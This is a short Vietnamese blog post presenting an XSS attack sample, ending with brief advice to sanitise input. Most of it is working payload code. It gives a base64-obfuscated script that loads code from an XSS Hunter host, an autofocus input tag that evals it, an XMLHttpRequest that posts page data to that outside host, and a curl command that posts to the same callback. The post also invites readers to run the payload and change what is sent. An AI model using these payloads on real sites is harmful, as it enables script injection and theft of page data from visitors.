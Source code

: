 ```yaml
---
title: (Vi) XSS attack sample
author: lk
---
```


Disclaimer: Kỹ thuật này có thể đã lạc hậu tại thời điểm bài  này đuợc viết ;). Enjoy your day lah ^^.

**XSS attack là kỹ thuật tấn công khá phổ biến bên cạnh SQL injection. Hãy cùng xem thử một ví dụ mà attacker inject thành công một đọan mã độc vào hệ thống nhé!**


Đầu tiên, hãy chạy đoạn thử js này trong js console

```js
> atob('dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vZDB4NS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7')

> 'var a=document.createElement("script");a.src="https://d0x5.xss.ht";document.body.appendChild(a);'
```
một vài browser hiện đại thì đã chặn việc chạy các đoạn mã độc như trên


```
> # thử eval đoạn mã độc phía trên 
> eval(atob('dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vZDB4NS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7'))

> VM91:1 This document requires 'TrustedScript' assignment and no 'default' policy for 'TrustedScript' has been defined.
(anonymous) @ VM91:1
VM91:1 Uncaught EvalError: Refused to evaluate a string as JavaScript because 'unsafe-eval' is not an allowed source of script in the following Content Security Policy directive: "script-src chrome://resources 'self'".
```


Nếu bạn tò mò, tận mắt thấy, hãy nhúng đoạn code dưới này vào file html bất kỳ nào đó, mở ở chế độ **private mode**
```
<input
    onfocus=eval(atob(this.id))
    id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vZDB4NS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7
 autofocus>
```
link đến thư viện mà attacker xài, https://d0x5.xss.ht/ . Biết đâu bạn có thể modify một vài thông tin gửi về attacker = việc modify data 
gửi về cho attacker trong hàm bên dưới
```
    var http = new XMLHttpRequest();
    var url = "https://d0x5.xss.ht/page_callback";
    http.open("POST", url, true);
    http.setRequestHeader("Content-type", "text/plain");
    http.onreadystatechange = function() {
        if(http.readyState == 4 && http.status == 200) {

        }
    }
    http.send( JSON.stringify( page_data ) );
}
```
Hoặc callback luôn bằng curl
```
> curl -v -XPOST 'https://d0x5.xss.ht/page_callback' -d'{"page_html":"fuckyou", "uri":"fuck you again"}'
```

**Hãy luôn sanitize input data có kiểu string ;) và kỹ hơn nữa thì nên sanitize data load từ database khi render html page.**
Hoặc nên dùng các thư viện ORM có hỗ trợ việc sanitize/ cast các malicious input data này.

Nếu bạn còn tò mò, hãy vọc vạch thêm từ đây https://xsshunter.com/
